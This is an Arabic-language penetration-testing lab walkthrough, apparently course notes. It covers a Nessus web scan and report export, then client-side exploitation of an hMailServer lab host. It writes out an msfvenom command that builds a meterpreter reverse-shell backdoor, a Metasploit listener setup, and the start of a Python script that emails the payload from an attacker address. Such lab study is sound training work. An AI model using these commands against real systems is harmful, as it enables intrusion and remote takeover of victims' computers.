 نروح للـ Scans من فوق  
بعدين نختار Web Application Tests  
بعدين نحدد التارقت في المربع النصي demo.ine.local and webserver.ine.local  
بعدين نروح للـ Settings > Discovery  
بعدين نختار خيار Assessments  
بعدين نحدد وش نوع السكان الي نبيه حنا بنخليه كويك سكان عشان مايتاخر علينا  
بعدي نسوي save ونشغله  

الان ننتظر كل الفحصين حق الشبكة وحق الويب يخلصون  

طيب حلو الان خلص خلونا نسوي export للتقرير  
ندخل على السكانات ونشوف اول واحد الي سميناه Custom WebApp Scan  
نشوف فوق يمين فيه Report Export نضغط عليه  
الان نختار كيف نبي نستخرجه هل ملف pdf or XML ot HTML  
حنا اخترنا PDF  
طبعا حنا نبي الريبورت كامل ف نختار Complete Lists Vulnerbilities bu Hosts  
بعدين نضغط Generate Report  

ونشوف انه الى هنا انهينا الـ Nessus كامل  
عرفنا كيف نسوي سكان عرفنا نضيف التارقت عرفنا نشوف نتيجة الفحص وعرفنا نصدر تقرير مرتب عن كل السكان الي صار موضح فيه كل شي صار بالسكان  

الى هنا انتهى اللاب نشوف الي بعده  

---  

Client-Side Exploitation  
-------------------------|  

طيب اول شي نسوي بنق نشوف وش الي نقدر نوصله ووش اتلي منقدر من التارقت  
```bash  
ping demo.ine.local  
ping demo1.ine.local  
```  

 خلونا نفحص التارقت  
```bash  
nmap demo.ine.local  
```  
نشوف انه عطانا بورتات كثير مفتوحه يهمنا منها بورت 25 SMTP  
طيب خلونا نفحص البورت هذا بالتحديد ونشوف اصدار الخدمة الي شغاله عليه  
```bash
nmap -sV -p 25 demo.ine.local  
```  
حلو الان عطانا انه شغال على hMailServer ونعرف انه مصاب  
خلونا نستغله الان لابد نسوي ملف باك دور  
```bash  
ip addr [ to identify your ip]  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.4 LPORT=4444 -f exe > backdoor.exe file backdoor.exe  
```  
بعدين خلونا نفتح الليسنر على msfconsole  
```bash  
msfconsole -q  
use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST 10.10.15.4  
set LPORT 4444  
exploit  
```  
طيب حلو الان شغال الليسنر خلونا ناخذ البايثون سكربت الان  
```python  
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
fromaddr = "attacker@fake.net"
toaddr = "bob@ine.local"  
```